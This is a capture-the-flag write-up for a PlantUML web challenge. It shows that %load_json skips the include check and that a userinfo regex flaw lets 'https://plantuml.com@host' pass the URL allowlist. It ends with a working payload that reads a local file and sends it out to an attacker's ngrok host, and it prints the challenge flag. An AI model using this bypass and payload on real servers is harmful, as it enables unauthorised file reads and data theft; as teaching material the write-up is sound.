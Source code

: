 # PlantUML

**Author**: zeyu2001

**Category**: Web

Flag: `SEE{f1n4lly_y0u_SEE_th3_fl4g_94754d0abb89e4cf0a7f1c494dbb9d2c}`

## Description

I don't actually know how to draw UML please help

## Difficulty

Easy/Medium

## Solution

The server runs the latest version of PlantUML. The flag is stored in a JSON file at `/usr/local/tomcat/flag.txt`. We need to access the file and exfiltrate its contents, but:

- `ALLOW_PLANTUML_INCLUDE` is not set
- `PLANTUML_SECURITY_PROFILE` is set to allowlist, and only whitelists the `https://plantuml.com` URL.

Attempting to use the `!include` directive will fail because of the above configuration.

RTFM: https://plantuml.com/preprocessing

In the [builtin functions section](https://plantuml.com/preprocessing#291cabbe982ff775), there is a `%load_json` function that allows us to

> Load JSON data from local file or external URL

While `ALLOW_PLANTUML_INCLUDE` is checked for `!include`, it is not checked for `%load_json`, even though both pose the same security risk (local file read and SSRF).

That's pretty promising, but we still can't exfiltrate out of band because of the URL allowlist that blocks anything other than `https://plantuml.com`.

Taking a closer look at how the check is performed,

https://github.com/plantuml/plantuml/blob/v1.2023.8/src/net/sourceforge/plantuml/security/SURL.java#L306-L313

```java
private boolean isInUrlAllowList() {
  final String full = cleanPath(internal.toString());
  for (String allow : getUrlAllowList())
    if (full.startsWith(cleanPath(allow)))
      return true;

  return false;
}
```

The URL is first cleaned through `cleanPath`, then checked against the allowlist with `startsWith`. The `cleanPath` function is defined as follows:

```java
private String cleanPath(String path) {
  // Remove user information, because we don't like to store user/password or
  // userTokens in allow-list
  path = removeUserInfoFromUrlPath(path);
  path = path.trim().toLowerCase(Locale.US);
  // We simplify/normalize the url, removing default ports
  path = path.replace(":80/", "");
  path = path.replace(":443/", "");
  return path;
}
```

`removeUserInfoFromUrlPath` attempts to remove the user information (basic auth) from the URL. This should be a good thing, because it should prevent a bypass like `https://plantuml.com@evil.com`. However, a tiny mistake renders the whole function useless:

```java
private static String removeUserInfoFromUrlPath(String url) {
  // Simple solution:
  final Matcher matcher = PATTERN_USERINFO.matcher(url);
  if (matcher.find())
    return matcher.replaceFirst("$1$3");

  return url;
}
```

Consider the following regex that captures the user information in the 2nd group and the actual host in the 3rd group.

```java
private static final Pattern PATTERN_USERINFO = Pattern.compile("(^https?://)([-_0-9a-zA-Z]+@)([^@]*)");
```

It assumes that the user information part always contains the characters `[-_0-9a-zA-Z]+`. So if we use `https://plantuml.com@evil.com`, there is no match! In fact, the regex fails to perform its intended function since the format for user information in URLs is `<username>:<password>@<host>` and the regex does not contain `:`.

![](./regex.png)

We just have to do a bit of programming in PlantUML to exfiltrate the flag:

1. Host a `dummy.json` on your own server containing valid JSON.
2. Load the following diagram on PlantUML:

```
@startuml
!$str = %load_json("/usr/local/tomcat/flag.txt")
!$list = %splitstr($str, " ")
!foreach $item in $list
  Alice->Bob: %load_json("https://plantuml.com@806f-122-11-248-245.ngrok-free.app/dummy.json?" + $item)
!endfor
@enduml
```

3. Profit

![](./sol.png)